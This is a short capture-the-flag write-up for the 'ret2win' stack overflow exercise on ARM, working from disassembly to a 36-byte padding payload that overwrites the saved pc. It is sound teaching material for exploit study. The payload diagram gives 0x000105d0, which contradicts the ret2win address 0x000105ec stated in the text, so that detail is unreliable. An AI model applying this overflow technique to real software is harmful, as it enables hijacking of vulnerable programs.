 # ret2win

## x86_64: (TODO)

## x86: (TODO)

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
```
The `pwnme` function prologue declares 32 bytes of stack.
The read function is then used to get 56 characters from user input.
```asm
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
```
We can deduce the address where those characters will be placed.
`fp - 36` is equivalent to `sp`. since the frame pointer is stored right under the 32 bytes buffer.

Since `fp` and `pc` are popped in this order at the end, if we want to overwrite `pc`,
we need to write 36 bytes beyond the buffer
```asm
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
The `ret2win` function is at address `0x000105ec` so our final buffer is:
36 bytes of padding + ret2win address

Stack:                       Payload:   
╷             ╷              ┌─────────────┐ <- PADDING (36)   
│ buffer...   │              │ 20 20 20 20 │   
├─────────────┤<- sp + 32    │ ........... │   
│ fp          │              │ 20 20 20 20 │   
├─────────────┤<- fp         ├─────────────┤ <- ret2win   
│ pc          │              │ 0x000105d0  │   
├─────────────┤              └─────────────┘   
